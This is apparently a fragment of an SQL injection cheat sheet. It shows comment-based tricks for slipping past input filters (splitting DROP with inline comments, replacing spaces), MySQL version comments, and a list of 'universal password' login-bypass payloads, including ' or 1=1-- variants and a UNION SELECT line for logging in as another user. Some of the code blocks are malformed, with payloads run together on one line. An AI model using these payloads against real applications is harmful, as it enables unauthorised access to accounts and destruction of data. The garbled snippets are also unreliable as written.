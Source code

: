 
-   `#`



    ```sql

    DROP sampletable;#

    ```



### Inline comment


- `/* comment content */`


    ```sql

DROP/*comment*/sampletable` DR/**/OP/* bypass filtering */sampletable` SELECT/* replace spaces */password/**/FROM/**/Members
    ```



- `/*! MYSQL exclusive*/`


    ```sql

    SELECT /*!32302 1/0, */ 1 FROM tablename

    ```



### string encoding


- `ASCII()`: return the ASCII value of the character
- `CHAR()`: converts an integer to the corresponding character


## Backstage universal password


-   `admin' --`

-   `admin' #`

-   `admin'/*`

-   `' or 1=1--`

-   `' or 1=1#`

-   `' or 1=1/*`

-   `') or '1'='1--`

-   `') or ('1'='1--`

- Log in as different users `&#39; UNION SELECT 1, &#39;anotheruser&#39;, &#39;doesnt matter&#39;, 1--`
